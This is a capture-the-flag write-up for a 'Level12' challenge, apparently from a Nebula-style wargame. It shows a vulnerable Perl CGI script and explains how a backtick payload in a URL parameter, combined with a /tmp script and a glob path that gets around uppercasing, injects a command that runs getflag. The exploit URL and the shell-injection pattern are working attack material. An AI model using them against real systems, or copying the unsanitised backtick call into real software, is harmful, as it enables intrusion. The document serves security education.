 ## Level12

We found a perl script:

```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Its a script runing on localhost on port 4646 that takes 2 args but we will focus on the first one because it got a potentiel of command injection in this line :

```@output = \`egrep "^$xx" /tmp/xd 2>&1\`;```


But first we need to deal with the 2 regex lines:

```
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
```
  
 The first one change the alphabets to uppercase
 The second take string after the  last whitespace
 So we can't inject getflag directly we gonna put the command in a file
 So first we need to create a file in tmp we can call it FILE
 cat /tmp/FILE
 
 ```
    #!/bin/bash
    
    getflag > /tmp/token
  ```
 
 chmod 777 /tmp/file so another user can access it
 we still have one problem its that our output will become like this \`/TMP/FILE/\` and its not a valid path so we will change it to \`/*/FILE/\`
 we go to browser and go to:
 
 ```
 http://192.168.43.125:4646/?x="\`/*/FILE\`"
 ```
 
 comeback to terminal and cat /tmp/token :
 
 ```
 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
 ```
 

